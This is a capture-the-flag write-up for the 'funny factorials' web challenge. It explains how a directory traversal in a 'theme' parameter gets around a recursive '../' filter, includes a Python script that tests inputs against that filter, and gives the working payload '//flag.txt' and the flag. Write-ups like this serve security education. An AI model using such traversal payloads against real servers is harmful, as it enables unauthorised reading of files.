


# funny factorials

## Prompt

I made a factorials app! It's so fancy and shmancy. However factorials don't seem to properly compute at big numbers! Can you help me fix it?

`funny-factorials.amt.rs`

## Solution

The `Dockerfile` reveals that there is a `flag.txt` in the root directory.

`app.py` reveals that there is a possibly directory traversal vulnerability in the `theme` query parameter.

It is not easy to access this because there is a recursive script sanitzing user path input. This script tests inputs and finds what works for accessing `flag.txt`.

```py
import sys

def filter_path(path):
    path = path.replace("../", "")
    try:
        return filter_path(path)
    except RecursionError:
        # remove root / from path if it exists
        if path[0] == "/":
            path = path[1:]
        return path


if __name__ == '__main__':
    sys.setrecursionlimit(100)
    path1 = ".." * 99 + "/" * 99 + "flag.txt"
    print(path1)
    print(filter_path(path1))

    path2 = "/" * 2 + "flag.txt"
    print(path2)
    print(filter_path(path2))
```



Trying to replace the theme with `//flag.txt` gives the flag.



## Flag

`amateursCTF {h1tt1ng_th3_r3curs10n_l1mt_1s_1mp0ssibl3}`
